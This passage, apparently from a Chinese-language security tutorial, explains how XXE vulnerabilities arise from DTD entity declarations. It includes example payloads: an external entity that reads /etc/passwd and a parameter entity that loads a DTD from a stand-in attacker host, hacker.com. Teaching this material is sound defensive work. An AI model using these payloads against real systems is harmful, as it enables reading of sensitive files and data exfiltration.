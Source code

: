 三者其中，与 XXE 漏洞相关的主要在于文档类型定义（DTD），所以下面主要重点来介绍下 DTD。

#### 2.DTD 实体声明

DTD（Document Type Definition，文档类型定义）用于定义 XML 文档结构，包括元素的定义规则、元素间的关系规则、属性的定义规则，其定义结构如下：

DTD 实体就是变量，它既可以在文档内部声明，也可以外部引用，供在 XML 文档里面去使用。

-   **内部实体声明**
    

内部声明采用如下格式定义：

声明之后就可以通过“&实体名;”来获取，示例如下：

```
<!DOCTYPE foo [
<!ENTITY test "john">
  ]>
<root>
<name>&test;</name>
</root
```

-   **外部实体引用**
    

XXE 的产生正是外部实体引用的结果，可分为普通实体和参数实体。

**（1）普通实体**声明格式如下：

```
<!ENTITY 实体名 SYSTEM "URI">
或者
<!ENTITY 实体名 PUBLIC "public_ID" "URI">
```

举个例子：

```
<!DOCTYPE foo [<!ELEMENT foo ANY>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

声明实体 xxe，用于读取 /etc/passwd 文件，然后通过 &xxe; 来引用执行。

**（2）参数实体**声明主要用于后续使用，与普通实体不同的是，它中间有百分号字符（%），其声明格式如下：

```
<!ENTITY % 实体名称 "实体的值">
或者
<!ENTITY % 实体名称 SYSTEM "URI">
```

举个例子：

```
<!DOCTYPE foo [
<!ENTITY  % xxe SYSTEM "http://hacker.com/evil.dtd" >
  %xxe;
]>
<root>
<name>&evil;</name>
</root>
```
